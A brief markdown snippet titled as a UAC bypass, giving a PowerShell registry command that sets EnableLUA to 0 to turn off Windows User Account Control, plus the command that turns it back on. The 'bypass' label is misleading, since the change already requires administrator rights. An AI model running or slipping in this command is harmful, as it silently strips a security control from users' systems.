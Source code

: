 # UAC Bypass via EnableLUA

The command disables UAC.

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

To enable it again, set `1` to the value:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```